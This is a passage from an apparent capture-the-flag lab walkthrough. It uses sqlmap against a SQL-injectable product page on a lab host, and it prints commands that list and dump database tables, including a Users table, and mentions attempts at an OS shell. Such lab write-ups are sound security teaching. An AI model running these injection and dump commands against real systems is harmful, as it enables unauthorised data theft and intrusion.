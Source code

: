 ```
[14 tables]
+-----------------------+
| Applications          |
| CreditCard            |
| Memberships           |
| Product               |
| ProductCategory       |
| ProductSubcategory    |
| Profiles              |
| Roles                 |
| Users                 |
| UsersInRoles          |
| UsersOpenAuthAccounts |
| UsersOpenAuthData     |
| __MigrationHistory    |
| sqlmapoutput          |
+-----------------------+
```

We use the `--tables` argument to get sqlmap to dump the names of all the tables we have access to. `--batch` will ensure that we are not prompted to answer any of the questions and `--exclude-sysdbs` will skip any of the system databases making the script run much faster.

We can also dump all the tables with the command:
```
root@kali: sqlmap -u https://10.10.10.104/mvc/Product.aspx\?ProductSubCategoryId\=6 -o --dump --batch --exclude-sysdbs
```

The `Users` table seems like one we should be most interested in, we know from our browser tests that the `Products` table is quite large, so rather than dump the entire database we can dump just the table we want with the `-T` arugment:
```
root@kali: sqlmap -u https://10.10.10.104/mvc/Product.aspx\?ProductSubCategoryId\=6 -o --dump --batch --exclude-sysdbs -D 'Injection' -T 'Users'
...
Database: Injection
Table: Users
[1 entry]
+--------------------------------------+--------------------------------------+----------+-------------+------------------------+
| UserId                               | ApplicationId                        | UserName | IsAnonymous | LastActivityDate       |
+--------------------------------------+--------------------------------------+----------+-------------+------------------------+
| 80FF0BA8-8AFD-4735-91BB-BC7D4FC58893 | 0080FF37-10F0-4971-A6CC-8ED0495E8C6E | test     | 0           | Feb 12 2019 \xa02:19AM |
+--------------------------------------+--------------------------------------+----------+-------------+------------------------+
```

Doesn't look like we will be able to get anything useful out of this database, so we move on to trying to pwn. SQLMap has some built in options to try and pwn-os and get an os-shell, so we might as well see if we can go straight there. The `--os-pwn` and `--os-shell` are not able to exploit so we need to start getting creative.
